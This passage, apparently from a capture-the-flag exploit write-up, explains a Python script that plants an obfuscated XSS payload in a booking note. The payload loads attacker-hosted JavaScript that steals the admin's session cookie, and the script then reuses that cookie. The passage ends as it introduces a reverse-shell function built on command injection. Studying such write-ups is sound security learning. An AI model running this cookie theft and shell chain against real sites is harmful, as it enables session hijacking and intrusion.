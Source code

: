 The JavaScript code in the `x.js` file abuses the admin session by sending a request to `/leak?x=[base64]` where `[base64]` is a base64 encoded response of a request to a booking page which contain the admin user's session cookie. At line 16, we extract the base64 encoded part of the URL and base64 decode it using the `base64.b64decode` function . Then, we extract the admin user's session cookie using the regex `name=\"cookie" value=\"connect.sid&#x3D;(.*?)\">` which matches the string `name="cookie" value="connect.sid&#x3D;`, the admin user's session cookie and the string `">`. Note that `&#x3D;` is an HTML encoded equality sign `=`. 

We store the admin user's session cookie in the global `cookieValue` variable and release the `wsLock` lock to inform Thread 1 (Main) that it can proceed. At line 29 to 32, we configure the flask web server to be silent. This is done by setting the log level of the `werkzeugs` logger to `Error`. In addition, we overwrite the `click.echo` and `click.secho` functions with a lambda function that does nothing, since these are used by the web server to write output to STDOUT. Then, at line 33 to 34, we start a new thread and instruct it to run the web server.

{% highlight python linenos %}
print("[*] Sending XSS payload")
payload = """document.write('<script src="http://"""+LHOST+"""/x.js"></script>')"""
nums = [str(ord(i)) for i in payload]
payload = '<img src="x/><script>eval(String.fromCharCode('+','.join(nums)+'));</script>">'
data = {"uuid":bookingID,"body":payload}
r = requests.post(URLBASE+"agent/addNote", headers=headers, data=data)
{% endhighlight %}
The next step is to create a new note which contains an XSS payload, as we demonstrated in the previous section. At line 2, we set the `payload` variable to some HTML code which downloads and executes the `x.js` file we created earlier. Thereafter, on line 3, we use [list comprehension](https://www.w3schools.com/python/python_lists_comprehension.asp) to convert each of the characters into their corresponding unicode code which we then use to craft our final payload on line 4. Afterwards, we send a `POST` request to inject this payload in a note of an existing booking.

Once we have sent the request, we wait for the web server to obtain the admin user's session cookie and place it in the `cookieValue` variable. We wait for the assigment of this variable by calling the `wsLock.acquire` function which blocks execution until the `release` function is called on the `wsLock` object. Once we have obtained the admin user's session cookie, we replace the old session cookie with this new session cookie in our `headers` dictionary.

{% highlight python linenos %}
print("[*] Waiting for the admin user to visit the infected note")
wsLock.acquire()
headers['Cookie'] = cookieName+"="+cookieValue
{% endhighlight %}

The next step is to write the function `executeRevShell` which will execute the reverse shell payload. The function accepts 4 parameters. The first, second and fourth are the base URL of the host we are targeting, the the IP of our web server and a dictonary of headers to include any requests respectively. The third argument, named "mutex", is a locked lock which the function uses to wait for a listener to be ready before injecting any commands. Then, it converts the IP address of our web server to decimal format. This is because the command injection vulnerability does not allow for the injection of commands containing the period `.` character.
{% highlight python linenos %}
# executeRevShell - Executes a reverse shell on the target by abusing the command injection vulnerability
# Params:
#   urlbase - The URL of the target to compromise
#   wsIP - IP of the webserver which hosts the reverse shell payload "rs"
#   mutex - A mutex to acquire before exploiting the target